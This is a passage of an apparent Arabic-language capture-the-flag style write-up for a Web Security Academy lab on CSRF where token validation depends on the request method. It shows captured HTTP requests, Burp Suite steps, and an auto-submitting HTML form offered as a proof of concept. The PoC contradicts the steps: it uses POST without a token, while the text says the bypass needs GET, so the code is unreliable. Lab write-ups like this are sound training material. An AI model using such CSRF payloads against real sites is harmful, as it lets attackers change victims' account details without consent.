 ```http
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

email=abdo%40gmail.com&csrf=ZMe2oJ7bPIqjAhbxpZMiL4FGVxHJE1Rg
```


### **📌 شكل الريكويست بعد الاستغلال (تم تجاوز الحماية):**
```http
GET /my-account/change-email?email=hcha%40gmail.com HTTP/2
Host: 0a6f004b0370215280bd170f00a2005f.web-security-academy.net
Cookie: session=H7AjrmtjtOqZzgUYryYidiQDI8Zt62KB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Origin: https://0a6f004b0370215280bd170f00a2005f.web-security-academy.net
Referer: https://0a6f004b0370215280bd170f00a2005f.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```
---

### **📌 خطوات الحل :**

1. **افتح متصفح Burp وسجل دخولك لحسابك.**
2. **ابعت فورم "تحديث الإيميل"، وبعدها دور على الطلب في Proxy history.**
3. **استخدم Burp Repeater وغير قيمة `csrf`، هتلاحظ إن الطلب بيرفض التغيير.**
4. **استخدم خيار "Change request method" في القائمة، وغير الطلب إلى `GET`، هتلاقي إن `csrf` مش بيتحقق منه.**
5. **لو عندك Burp Suite Professional:**
   - اضغط **كليك يمين** على الطلب.
   - اختر **Engagement tools / Generate CSRF PoC**.
   - فعل خيار **auto-submit script** واضغط **Regenerate**.

6. **لو بتستخدم Burp Suite Community Edition:** استخدم الكود ده:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="anything%40web-security-academy.net">
</form>
<script>
    document.forms[0].submit();
</script>
```
